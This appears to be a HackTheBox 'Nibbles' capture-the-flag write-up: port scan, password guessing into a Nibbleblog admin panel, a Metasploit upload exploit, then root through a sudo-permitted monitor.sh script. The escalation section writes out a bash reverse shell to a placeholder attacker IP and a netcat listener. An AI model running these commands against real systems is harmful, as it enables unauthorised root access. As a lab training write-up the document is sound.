







# HackTheBox - Nibbles

It starts as always with the usual portscan.

`nmap -sS -T4 -sV <IP>`

We have a web server and SSH server open.

I started to take a closer look at the web server.
After the first look there is only a simple __Hello World__, but if we look at the source code we can see an interesting directory.

I went to the path and saw a small blog.

I found out that `Nibbleblog` is vulnerable to `Arbitrary File Upload`.
But first we need a valid access.

The login to the CMS administration area was located at `/nibbleblog/admin.php`.
But I found nowhere credentials.

I enumerated until I could not think of anything.
Finally it was simple __Password Guessing__ and the name of the box which gave me access to the admin panel.

Now I was able to use an exploit from Metasploit, which worked well.

I got a reverse shell as user `nibbler`...

...and got the user flag.

## PrivEsc

When we type `sudo -l` we see an interesting setting.

We can run as user `root` with `sudo` without specifying a password a script called `monitor.sh`.
I wanted to look at the file permissions of the file but it was not there yet.

Ok, so all we had to do was to create the script and the folders as they are in the sudo configuration.
And the script which we can run as root, we can make as we want.

Here are the steps I did:

1) `mkdir -p /home/nibbler/personal/stuff/`
2) `cd /home/nibbler/personal/stuff/`
3) `echo \#\!/bin/bash >> monitor.sh`
4) `echo "/bin/bash -i >& /dev/tcp/<ATTACKER_IP>/4141 0>&1" >> monitor.sh`
5) `chmod +x monitor.sh`
5) -start listener: `nc -nlvp 4141`
6) `sudo -u root /home/nibbler/personal/stuff/monitor.sh`

I got a new shell on my listener as `root` and retrieved the flag.

